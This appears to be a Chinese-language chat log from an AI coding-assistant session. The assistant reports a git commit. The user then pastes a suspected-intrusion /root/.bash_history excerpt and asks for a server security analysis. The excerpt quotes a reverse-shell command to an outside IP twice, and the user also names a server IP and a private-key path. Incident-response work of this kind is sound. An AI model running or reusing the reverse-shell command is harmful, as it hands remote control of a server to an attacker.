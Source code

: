 
<think><details><summary>Thought Process</summary></details></think>

---

✅ **代码提交成功！**

您的代码已经成功提交并推送到GitHub。以下是本次提交的详细信息：

**提交信息**：`更新项目文档和配置：添加自动支付方案文档，修复旅游智能体异常问题总结，更新gitignore配置`

**提交的文件包括**：
- ✅ 修改了 `.gitignore` 文件
- ✅ 更新了 `.specstory/history` 中的分析问题解决方案文档
- ✅ 新增了 `docs/33生成旅游智能体代码异常问题总结.md`
- ✅ 新增了 `docs/38自动支付方案.md`
- ✅ 新增了 `docs/COMMIT_SUMMARY.md` 和 `docs/COMMIT_SUMMARY_20250802.md`
- ✅ 新增了 `static/travel_planner.html`

**统计信息**：
- 7个文件被修改
- 21,738行新增内容
- 创建了5个新文件

现在您的本地代码与GitHub远程仓库完全同步。如果需要继续开发或部署应用，请告诉我您需要什么帮助！

---

_**User**_

服务器 106.53.134.90 密钥路径：/Users/a1/work/id_rsa
请分析/root/.bash_history，怀疑可能是入侵的：#1746297553
fine / -name qygm.png
#1746297565
find / -name qygm.png
#1746296284
bash -i >& /dev/tcp/196.251.84.241/1234 0>&1
#1746314465
ls
#1746314469
pwd
#1746314481
ls
#1746314501
ls /opt
#1746314509
ls
#1746314461
bash -i >& /dev/tcp/196.251.84.241/1234 0>&1
分析下对应服务器可能漏洞及危害，及如何解决，整理成docs/42服务器安全防护.md

---

_**Assistant**_

<think><details><summary>Thought Process</summary></details></think>

---